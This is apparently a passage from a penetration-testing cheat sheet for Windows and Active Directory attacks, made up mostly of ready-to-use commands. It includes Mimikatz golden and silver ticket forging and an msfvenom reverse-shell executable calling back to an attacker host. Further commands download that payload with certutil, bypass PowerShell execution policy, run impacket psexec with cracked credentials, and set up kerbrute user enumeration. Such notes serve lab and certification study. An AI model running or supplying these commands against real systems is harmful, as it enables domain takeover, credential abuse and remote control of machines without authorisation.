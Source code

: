 ```
kerberos::golden /user:administrator /domain:<domain.local> /sid:<krbtgt’s full SID> /krbtgt:<NTLM Hash of krbtgt> /id:500 [to create a silver ticket user a different service account — place the NTLM, SID, and id 1103 into the proper slots of this command]
```
To access other machines with the Golden/Silver ticket:
```
misc::cmd [to spawn cmd.exe instance for your new ticket]
```
```
dir \\<other machine name or IP>\C$
```
## MSFVenom Reverse Shell (.exe)
Nothing special to this. I just liked having it handy.
```
msfvenom -a x64 — platform Windows -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```
If this one doesn’t work try:
```
windows/x64/shell/reverse_tcp
```
as the payload instead. Or **take out x64 if it’s a 32-bit box.**
## File Transfer (From Target)
On localhost, start webserver from location in which the file you want to transfer is in:
```
python3 -m http.server 80
```
On target, enter this command:
```
certutil.exe -urlcache -split -f http://$KALI:80/reverse.exe
```
## Start PowerShell Session And Import Module
```
powershell.exe -nop -exec bypass
```
```
Import-Module <Full Path to xyz.ps1>
```
## Connect To Host w/ Found/Cracked Creds
```
python3 /opt/impacket/examples/psexec.py <domain>/<username>:<password>@$TARGET
```
**or**
```
impacket-psexec.py <domain>/<username>:<password>@$TARGET
```
**OR**
If you have creds/hashes to the target, use netexec to request the reverse shell, and again to execute it.
For the first command, change the ‘rev.exe’ section in the picture below to:
```
certutil.exe -urlcache -split -f http://$KALI:80/reverse.exe
```
then run your modified version of the command below (make sure you were hosting a web server for rev.exe, and make sure you have an nc listener for the shell):
![](https://miro.medium.com/max/1400/1*glZz8LUp94irPg64hv8oMQ.png)
## kerbrute
Kerbrute is a popular enumeration tool used to brute force and enumerate valid active directory users by abusing Kerberos pre-authentication. I like to start username enumeration with the below wordlist, but hopefully I can grab legit usernames through LDAP enumeration or enum4linux. If so, I’ll create a user list based on those names and use kerbrute to verify they actually exist.